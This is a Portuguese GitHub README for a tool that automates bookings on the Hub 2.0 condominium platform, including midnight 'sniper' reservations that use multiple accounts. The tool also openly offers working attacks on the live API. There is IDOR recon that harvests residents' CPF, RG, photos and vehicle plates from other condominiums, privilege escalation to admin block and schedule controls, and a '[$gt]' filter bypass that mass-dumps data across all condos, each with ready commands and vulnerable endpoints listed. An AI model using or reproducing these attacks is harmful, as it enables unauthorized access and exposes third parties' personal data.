

<div align="center">


[](https://python.org)
[](https://rust-lang.org)
[](https://nodejs.org)
[](./index.html)
[](.)
[](./LICENSE)

---

*"Quem reserva por API não espera app carregar."* — Hub 2.0

</div>

---

> [!CAUTION]
> **DISCLAIMER — USO POR SUA CONTA E RISCO**
>
> Este projeto é disponibilizado **exclusivamente para fins educacionais e de pesquisa de segurança**.
> O autor **NÃO se responsabiliza** por qualquer uso indevido, dano, acesso não autorizado,
> violação de termos de serviço, ou qualquer consequência legal decorrente do uso desta ferramenta.
>
> - Todos os CPFs, nomes, placas e dados pessoais exibidos neste repositório são **fictícios/anonimizados**.
> - O uso desta ferramenta contra sistemas sem **autorização explícita** do proprietário pode violar
>   o [Art. 154-A do Código Penal Brasileiro](http://www.planalto.gov.br/ccivil_03/decreto-lei/del2848compilado.htm)
>   (invasão de dispositivo informático) e outras legislações aplicáveis.
> - **Você é inteiramente responsável** por como utiliza este código.
>
> Ao clonar, baixar ou utilizar qualquer parte deste projeto, você concorda que o autor não possui
> qualquer responsabilidade sobre suas ações.

---

> [!IMPORTANT]
> **Isto é uma ferramenta de automação pessoal.** Interage com a API do Hub 2.0 (Hubert)
> para reservar espaços de condomínio de forma direta — sem o app lento, sem crash à meia-noite,
> sem ficar recarregando tela. Quatro interfaces: Python CLI, Rust binary, Node.js CLI, e Web dashboard.

---

## 🎯 Visão Geral

```mermaid
%%{init: {'theme': 'base', 'themeVariables': { 'primaryColor': '#1e293b', 'primaryTextColor': '#e2e8f0', 'primaryBorderColor': '#2563eb', 'lineColor': '#059669', 'secondaryColor': '#0f172a', 'tertiaryColor': '#334155'}}}%%
flowchart LR
    subgraph Tools["🛠️ Interfaces"]
        PY["🐍 Python CLI"]
        RS["🦀 Rust Binary"]
        JS["💚 Node.js CLI"]
        WEB["🌐 Web Dashboard"]
    end

    subgraph Core["⚡ Motor"]
        direction TB
        AUTH["🔐 Auth<br/>Base + Bearer"]
        SNIPER["🎯 Sniper<br/>Disparo Meia-Noite"]
        SPY["🕵️ Espião<br/>Rastreio de Velocidade"]
        SWAP["🔄 Troca<br/>Cancel + Rebook"]
        RADAR["📡 Radar<br/>Vigília + Auto-Book"]
        RANK["🏆 Ranking<br/>Análise de Bots"]
        RECON["🔍 Recon<br/>IDOR Cross-Tenant"]
        ADMIN["⚡ Admin<br/>Privilege Escalation"]
        DUMP["💀 Dump<br/>Mass Exfiltration"]
    end

    subgraph API["🏢 Hub 2.0 API"]
        ACC["api-accounts"]
        MOR["api-morador"]
    end

    Tools --> Core
    Core --> API
```



| Propriedade | Valor |
|:------------|:------|
| **APIs** | `api-accounts.hubert.com.br` · `api-morador.hubert.com.br` |
| **Auth** | `Base <base64(cpf:senha)>` → Bearer JWT |
| **Contas** | N contas simultâneas (reserva + consulta) |
| **Sniper** | Disparo automático à meia-noite com refresh de token |
| **Espião** | Identifica quem reserva nos primeiros 30s (⚡ SPEED) |
| **Radar** | Monitora cancelamentos e auto-reserva em tempo real |
| **Ranking** | Análise de boteiros: top users, horários e áreas mais disputadas |
| **Troca** | Cancel conta A → reserva conta B (atômico, <200ms) |
| **Recon** | IDOR cross-condomínio: moradores (CPF, RG, foto) + veículos (placa) |
| **Admin** | Privilege escalation: criar/remover bloqueios, gerenciar horários |
| **Dump** | Mass dump: todas reservas/áreas de todos condos via bypass NoSQLi |
| **Interfaces** | Python CLI · Rust 2.3MB · Node.js (zero deps) · HTML + proxy |

---

## ⚡ Início Rápido

```bash
git clone git@github.com:gabrielmaialva33/hub20-hack.git && cd hub20
cp accounts.example.json accounts.json   # edite com suas credenciais
```

Escolha sua arma:

```bash
# 🐍 Python — menu interativo
pip install requests
python3 auto_booking.py

# 💚 Node.js — zero dependências (Node 18+)
node hub20.mjs

# 🦀 Rust — binário nativo (2.3MB)
cd hub20-cli && cargo build --release
./target/release/hub20

# 🌐 Web — dashboard no navegador
python3 server.py    # abre http://localhost:8080
```

<details>
<summary><strong>📋 Pré-requisitos</strong></summary>

| Ferramenta | Versão | Pra quê |
|:-----------|:-------|:--------|
| Python | `>= 3.10` | CLI + proxy server |
| Node.js | `>= 18` | CLI (zero deps, usa fetch nativo) |
| Rust | `>= 1.75` | Binário (opcional) |
| requests | qualquer | Dependência do Python CLI |

</details>

---

## 📖 Tutorial de Uso

### 1. Configurar contas

Edite `accounts.json` com suas credenciais:

```json
[
  {
    "label": "Principal",
    "cpf": "000.000.000-00",
    "senha": "sua_senha",
    "condominio": 1234,
    "unidade": "3 083"
  },
  {
    "label": "Consulta",
    "cpf": "111.111.111-11",
    "senha": "outra_senha",
    "condominio": 1234,
    "unidade": "3 083"
  }
]
```

> **💡 Por que N contas?** Quando você tem reserva ativa em uma área, o Hub bloqueia a
> consulta de horários naquela área. Com uma segunda conta, você consulta sem bloqueio
> e reserva com a principal.

### 2. Descobrir espaços disponíveis

```bash
python3 auto_booking.py --listar
```

Isso mostra todas as áreas do condomínio com código e tipo:

```
   11  Churrasqueira 01 c/ Piscina
   17  Quadra de Areia
   22  Cinema
   25  Home Theater
  695  Garage Band
  ...
```

Anote o **código** da área que quer reservar.

### 3. Ver horários disponíveis

```bash
# Area 17, daqui 7 dias
python3 auto_booking.py --area 17 --data 2026-04-03
```

```
  📅 Area 17 — 2026-04-03

    1. ✅ 07:00 - 08:00  (1 vaga)
    2. ✅ 08:00 - 09:00  (1 vaga)
    3. ❌ 20:00 - 21:00  (0 vagas)  ← já pegaram
```

### 4. Reservar direto

```bash
python3 auto_booking.py --area 17 --data 2026-04-03 --hora 20:00
```

### 5. 🎯 Modo Sniper (o mais importante)

O sniper espera até a meia-noite e **dispara a reserva no milissegundo** que o horário abre:

```bash
# Reservar Quadra de Areia (17) dia 03/04, horário das 20h
# Disparo à meia-noite
python3 auto_booking.py --sniper --area 17 --data 2026-04-03 --hora 20:00
```

O que acontece:
1. Faz login e guarda o token
2. Mostra countdown até 00:00:00
3. **5 segundos antes** renova o token (pra não expirar)
4. No milissegundo exato, dispara até 10 tentativas em rajada
5. Se alguém foi mais rápido → mostra "💀 Já pegaram!"

```
  🎯 MODO SNIPER ATIVADO
  📍 Area 17 | 📅 2026-04-03 20:00
  👤 Principal (Usuario)
  ⏰ Disparo as 00:00:00

  ⏱️  00:00:03

  🚀 DISPARANDO! [00:00:00.002]
  ✅ RESERVA CONFIRMADA as 00:00:00.089!
  📋 Codigo: 1332456
```

### 6. 🕵️ Modo Espião

Veja quem reservou e **quando** — identifique quem tá usando automação:

```bash
python3 auto_booking.py --espiao 2026-04-03
```

```
  🕵️  MODO ESPIAO — reservas para 2026-04-03

  2026-03-27T00:00:00.933  Quadra de Areia    20:00-21:00  Fulano       3 042  ⚡ SPEED
  2026-03-27T00:00:01.204  Churrasqueira 01   11:00-12:00  Ciclano      2 015  ⚡ SPEED
  2026-03-27T00:00:45.891  Cinema             20:00-21:00  Beltrano     1 023  🏎️ RAPIDO
  2026-03-27T08:15:33.442  Home Theater       14:00-15:00  Outro        5 101

  🏎️  3 reservas nos primeiros 60 segundos!
  Mais rapido: 2026-03-27T00:00:00.933
```

### 7. Usar com outra conta

```bash
# Consultar horários com a conta 2 (quando a 1 tá bloqueada)
python3 auto_booking.py --conta 2 --area 17 --data 2026-04-03

# Reservar com a conta 1
python3 auto_booking.py --conta 1 --area 17 --data 2026-04-03 --hora 20:00
```

### 8. Gerenciar reservas

```bash
# Ver minhas reservas ativas
python3 auto_booking.py --minhas

# Cancelar uma reserva
python3 auto_booking.py --cancelar 1332456
```

### 9. Radar — Monitora cancelamentos e auto-reserva

Fica vigiando uma área e reserva **automaticamente** quando alguém cancelar:

```bash
# Vigiar Quadra de Areia dia 27, qualquer horário
python3 auto_booking.py --radar --area 17 --data 2026-03-27

# Vigiar horário específico (20:00)
python3 auto_booking.py --radar --area 17 --data 2026-03-27 --hora 20:00

# Intervalo customizado (2s = mais agressivo)
python3 auto_booking.py --radar --area 17 --data 2026-03-27 --hora 20:00 --intervalo 2
```

### 10. Ranking — Quem usa bot no condomínio

```bash
python3 auto_booking.py --ranking               # últimos 7 dias
python3 auto_booking.py --ranking --dias 30      # último mês
```

Mostra top boteiros com medalhas, horários mais disputados, áreas mais concorridas.

### 11. Trocar reserva (cancel + rebook atômico)

Cancela com uma conta e reserva instantaneamente com outra — janela de <200ms:

```bash
# Trocar reserva 1332456: cancela conta 1, reserva conta 2
python3 auto_booking.py --trocar 1332456

# Especificar contas
python3 auto_booking.py --trocar 1332456 --conta 1 --conta2 2
```

### 12. 🔍 Recon — IDOR Cross-Condomínio

Acessa dados de **qualquer condomínio** da plataforma — moradores com CPF, RG, foto e veículos com placa:

```bash
# Recon do seu condomínio
python3 auto_booking.py --recon

# Recon de OUTRO condomínio (IDOR)
python3 auto_booking.py --recon --condo 5678
```

```
  🔍 RECON — Condominio 5678

  👥 Moradores (liberacaoAcesso)

     #  Nome                                 CPF             RG            Unidade   Tipo
     1  MARIA APARECIDA DOS SANTOS           00011122233                   5 263     Funcionario
     2  JOAO CARLOS OLIVEIRA                 44455566677      123456789    4 174     Morador
  ...
  Total: 17 moradores

  🚗 Veiculos (portaria)

     #  Placa       Dono                            Unidade   Tipo
     1  ABC1D23     JOSE PEREIRA DA SILVA           3 043     Carro
  ...
  Total: 8 veiculos
```

> **Vulnerabilidade**: IDOR em `/liberacaoAcesso/{cond}/ativas` e `/portaria/{cond}/veiculo`.
> A API não valida se o usuário pertence ao condomínio consultado. Dados salvos em `recon/`.

### 13. ⚡ Admin Mode — Privilege Escalation

Funções de **síndico/admin** acessíveis por morador normal:

```bash
# Criar bloqueio de área (impede reservas)
python3 auto_booking.py --bloquear --area 17 --data 2026-04-01 --descricao "Manutenção"

# Bloqueio com range de datas
python3 auto_booking.py --bloquear --area 17 --data 2026-04-01 --data-fim 2026-04-03

# Remover bloqueio (inclusive bloqueios de ADMIN)
python3 auto_booking.py --desbloquear 119439
```

No menu interativo (opção 13):
- **Bloqueios**: listar, criar, remover — bloqueia/desbloqueia áreas inteiras
- **Horários**: listar, criar, deletar — gerencia schedules de funcionamento
- **Config**: ver config admin completa de todas as áreas

> **Vulnerabilidade**: `POST/PUT /areaConfiguracao/{area}/bloqueio` e `POST/DELETE /areaConfiguracao/{area}/horario`
> não verificam se o usuário é admin/síndico. Morador normal tem controle total.

### 14. 💀 Dump — Exfiltração Massiva Cross-Condomínio

Explora bypass NoSQLi-style (`[$gt]=0`) para extrair dados de **todos** os condominios da plataforma:

```bash
python3 auto_booking.py --dump
```

```
  💀 DUMP MODE — Exfiltracao massiva cross-condominio

  ⏳ Baixando todas as reservas... OK
  📊 2931 reservas | 165 condominios | 1629 moradores

  ⏳ Baixando todas as areas... OK
  📊 1636 areas | 452 condominios

  🏢 Top condominios por reservas:

    467  ██████████████████████ 1001 - CONDOMINIO EXEMPLO ALPHA
    385  █████████████████ 1002 - COND RESIDENCIAL BETA
    202  █████████ 1003 - ASSOC MORADORES GAMMA
  ...
```

> **Vulnerabilidade**: Parâmetros `[$gt]`/`[$ne]` fazem o ASP.NET ignorar o filtro de condomínio.
> Dados salvos em `dump/`.

---

## 🏗️ Arquitetura



| Camada | Arquivo | Função |
|:-------|:--------|:-------|
| **Python CLI** | `auto_booking.py` | Menu interativo + flags CLI, N contas, sniper, espião, troca, radar, ranking, recon, admin, dump |
| **Binário Rust** | `hub20-cli/` | Mesmo conjunto de funcionalidades, binário nativo 2.3MB |
| **Node.js CLI** | `hub20.mjs` | Zero deps (fetch nativo), menu + flags, all features |
| **Dashboard Web** | `index.html` | Interface visual com countdown, requer proxy |
| **CORS Proxy** | `server.py` | Proxy local pra browser (API não tem CORS headers) |
| **Config** | `accounts.json` | Credenciais das N contas (gitignored) |

---

## 🦀 Binário Rust

Binário único de 2.3MB — sem Python, sem Node, sem dependências.

```bash
cd hub20-cli
cargo build --release
./target/release/hub20              # menu interativo
./target/release/hub20 listar       # listar áreas
./target/release/hub20 sniper 17 2026-04-03 --hora 20:00
./target/release/hub20 espiao 2026-04-03
```

**macOS** — roda o script de build no Mac:

```bash
chmod +x build-macos.sh && ./build-macos.sh
```

O script instala Rust automaticamente se necessário.

---

## 💚 Node.js CLI

Zero dependências — usa `fetch` nativo do Node 18+. Ideal pra quem já tem Node instalado.

```bash
node hub20.mjs                           # menu interativo
node hub20.mjs listar                    # áreas
node hub20.mjs horarios 17 2026-04-03   # horários
node hub20.mjs sniper 17 2026-04-03 20:00
node hub20.mjs espiao 2026-04-03
node hub20.mjs trocar 1332456           # troca atômica
```

---

## 🌐 Web Dashboard

Interface visual com tema escuro, countdown do sniper, e espião integrado.

```bash
python3 server.py    # inicia proxy em :8080
# abre http://localhost:8080
```

| Recurso | Descrição |
|:--------|:----------|
| **Login** | 2 contas com seletor |
| **Espaços** | Lista com botão "Selecionar" → preenche sniper |
| **Horários** | Vagas em tempo real com botão "🎯 Sniper" |
| **Sniper** | Countdown visual em tamanho grande, disparo automático |
| **Minhas** | Reservas ativas com botão cancelar |
| **Espião** | Tabela com badges ⚡ SPEED e 🏎️ RÁPIDO |

---

## 📡 Referência da API

> **Swagger exposto em produção**: `/swagger/v1/swagger.json` em ambos backends (81 + 55 endpoints).

| Método | Endpoint | Descrição |
|:-------|:---------|:----------|
| `POST` | `/api/v1/login` | Autenticação → retorna JWT |
| `GET` | `/api/v1/areas?codigoCondominio=N` | Listar áreas |
| `GET` | `/api/v1/areas/{id}/datasDisponiveis` | Horários + vagas |
| `POST` | `/api/v1/reservas` | Criar reserva |
| `POST` | `/api/v1/reservas/{id}/cancelar` | Cancelar reserva |
| `GET` | `/api/v1/reservas` | Todas as reservas (IDOR) |
| `GET` | `/api/v1/liberacaoAcesso/{cond}/ativas` | **IDOR** Moradores: nome, CPF, RG, foto |
| `GET` | `/api/v1/portaria/{cond}/veiculo` | **IDOR** Veículos: placa, dono, unidade |
| `POST` | `/api/v1/areaConfiguracao/{area}/bloqueio` | **Priv Esc** Bloquear área (admin) |
| `PUT` | `/api/v1/areaConfiguracao/{area}/bloqueio/{id}` | **Priv Esc** Desativar bloqueio |
| `POST` | `/api/v1/areaConfiguracao/{area}/horario` | **Priv Esc** Criar schedule |
| `DELETE` | `/api/v1/areaConfiguracao/{id}/horario` | **Priv Esc** Deletar schedule |
| `GET` | `/api/v1/areaConfiguracao/{cond}` | Config admin de áreas |
| `GET` | `/api/v1/financeiro/{cond}/prestacaocontas/periodos` | **IDOR** Dados financeiros |
| `GET` | `/swagger/v1/swagger.json` | Spec OpenAPI exposta |

<details>
<summary><strong>Corpo da requisição de reserva</strong></summary>

```json
{
  "codigoArea": 17,
  "codigoCondominio": 1234,
  "unidade": "3 083",
  "quantPessoas": 1,
  "dataReserva": [
    {
      "dataInicial": "2026-04-03T20:00:00",
      "dataFinal": "2026-04-03T21:00:00"
    }
  ],
  "observacoes": ""
}
```

> **⚠️ Datas sem "Z"** — a API espera horário local, não UTC.
> `2026-04-03T20:00:00` ✅ · `2026-04-03T20:00:00.000Z` ❌

</details>

---

## 📊 Status

| Recurso | Python | Rust | Node.js | Web |
|:--------|:------:|:----:|:-------:|:---:|
| Multi-conta (N) | ✅ | ✅ | ✅ | ✅ (2) |
| Listar áreas | ✅ | ✅ | ✅ | ✅ |
| Ver horários | ✅ | ✅ | ✅ | ✅ |
| Reservar | ✅ | ✅ | ✅ | via Sniper |
| Sniper meia-noite | ✅ | ✅ | ✅ | ✅ |
| Cancelar | ✅ | ✅ | ✅ | ✅ |
| Espião + badges | ✅ | ✅ | ✅ | ✅ |
| Troca (cancel+rebook) | ✅ | ✅ | ✅ | ✅ |
| Radar (auto-book) | ✅ | — | — | — |
| Ranking (bot analysis) | ✅ | — | — | — |
| **Recon (IDOR cross-condo)** | ✅ | — | — | ✅ |
| **Admin (priv escalation)** | ✅ | — | — | ✅ |
| **Dump (mass exfiltration)** | ✅ | — | — | ✅ |
| Renovação de token | ✅ | ✅ | ✅ | ✅ |
| Config persistente | ✅ | ✅ | ✅ | — |
| Multiplataforma | ✅ | ✅ | ✅ | ✅ |

---

<div align="center">

**Star se você também sofre com o app do condomínio ⭐**

[](https://github.com/gabrielmaialva33/hub20-hack)

*Feito por [Gabriel Maia](https://github.com/gabrielmaialva33)*


</div>
